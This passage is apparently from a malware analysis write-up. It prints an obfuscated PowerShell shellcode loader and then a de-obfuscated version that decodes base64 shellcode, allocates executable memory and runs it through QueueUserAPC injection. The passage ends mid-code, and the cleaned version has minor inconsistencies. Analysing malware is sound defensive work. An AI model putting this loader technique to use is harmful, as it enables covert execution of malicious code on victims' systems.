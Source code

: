 ```powershell
 [System.Runtime.InteropServices.Marshal]::Copy($rpl,0,$yhibbqw,$rpl.length);
 if($tselcfxhwo::QueueUserAPC($yhibbqw,$kwhk,$yhibbqw))
 {
  $tselcfxhwo::SleepEx(5,3);
 }
}
```

With some renaming and cleanup we make the code more readable:
```
"D"="$jjw=\"kcsukccudy\";

function fromBase64{
    [System.Convert]::FromBase64String($args[0]);
};

function str_decode{
    $raw_bytes=fromBase64($args[0]);
    [System.Text.Encoding]::ASCII.GetString($raw_bytes);
};


[byte[]]$shellcode=fromBase64(\"6feZAAA0BgBuMWFe34CyvFBFtRPwA[... LONG BASE64 STRING ...]AAAAAAAAAA\");

$str1="
[DllImport(`"kernel32`")]
public static extern IntPtr GetCurrentThreadId();

[DllImport(`"kernel32`")]
public static extern IntPtr OpenThread(uint dwDesiredAccess, uint bInheritHandle,
                     IntPtr dwThreadId);

[DllImport(`"kernel32`")]
public static extern uint QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

[DllImport(`"kernel32`")]
public static extern void SleepEx(uint dwMilliseconds, uint bAlertable);
";

$class1=Add-Type -memberDefinition $str1 -Name 'alw' -namespace eluedve -passthru;

$dryjmnpqj="ffcx";
$str2="
[DllImport(`"kernel32`")]
public static extern IntPtr GetCurrentProcess();

[DllImport(`"kernel32`")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize,
                         uint flAllocationType, int flProtect);
";

$class2=Add-Type -memberDefinition $str2 -Name 'pqnvohlggf' -namespace rmb -passthru;

$jky="epnc";

$handle=$class1::OpenThread(16, 0, $class1::GetCurrentThreadId());
if($ptr=$class2::VirtualAllocEx($class2::GetCurrentProcess(),
                       0,
                       $shellcode.Length,
                       12288,
                       PAGE_EXECUTE_READWRITE)) {
    [System.Runtime.InteropServices.Marshal]::Copy($payload, 0, $ptr, $payload.length);
    if($class1::QueueUserAPC($ptr, $handle, $ptr)) {
```